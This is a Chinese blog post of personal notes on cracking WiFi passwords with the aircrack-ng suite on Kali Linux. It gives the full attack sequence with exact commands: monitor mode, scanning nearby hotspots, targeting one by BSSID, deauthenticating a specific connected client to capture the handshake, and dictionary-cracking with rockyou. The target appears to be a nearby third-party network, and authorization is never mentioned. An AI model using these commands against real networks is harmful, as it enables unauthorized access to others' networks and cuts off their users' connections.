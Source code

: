 ```yaml
---
title: 暴力法破解wifi笔记
categories:
- wifi破解
tags:
- wifi破解
updated: 2019-05-09
---
```




 

首先你得有一个外置网卡，然后用虚拟机进行破解

所需要的设备：	kali linux  外置网卡



首先要将虚拟机设置为：桥接模式

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_01.png" />

然后就是将插入的外接网卡设置为：

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_02.png" />

然后 ifconfig看下：

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_03.png" />

接着就进行混合：

并将wlan0网卡开启混杂模式： 

```
airmon-ng start wlan0
#提示要杀掉一些进程，根据提示进行即可
airmon-ng check kill 
airmon-ng start wlan0
```

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_04.png" />

开始抓包：

首先，查看附近WiFi热点，使用命令`airodump-ng wlan0mon` 

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_05.png" />

选取其中信号较好的WiFi热点，在这里我们选取一个目标(A4-306 2.4G)

使用airodump-ng对选取的WiFi热点进行cap监听与获取： 

```
airodump-ng -c 6 --bssid 88:25:93:60:C0:D9  -w A4-3062.4G wlan0mon（注意这个位置不能有空格，哪怕原wifi名字上有，这个地方也不能有）
 
-c 通道值 WiFi热点所对应的CH值(上图中可看到)
--bssid 需要破解WiFi的MAC值
-w cap文件名
wlan0mon 启用混杂模式的网卡名 
```

这个时候看到有12个设备进行了连接，选取一个为75-D7的进行抓包：（需要一直开启）

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_06.png" />

使用aireplay-ng 对选取的WiFi热点进行cap监听与获取： （再启动一个命令行）

```
aireplay-ng -0 2 -c E8:4E:06:21:75:D7  -a 88:25:93:60:C0:D9 wlanmon
 
-0 death模式，2为发送次数
-c 你所选择要断网操作的客户机MAC
-a WiFi热点MAC
```

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_07.png" />

有时候一次抓不到，多试几次，我试了三次之后，抓到了：

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_08.png" />

这个时候监听就可以停止了：

然后就是跑包了：

我们直接使用kali自带的，在文件目录中，需要解压（这里不做演示）

```
#首先ls查看当前目录所产生的握手包
aircrack-ng -w rockyou.txt A4-3062.4G-02.cap
w代表字典
接着你的包名称
```

然后就等结果吧！（其实如果wifi密码复杂的话，基本上很难跑出来）

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_09.png" />

这个只是一个笔记，现在暴力破解的太难了，wifi密码稍微一复杂，基本就无望。	




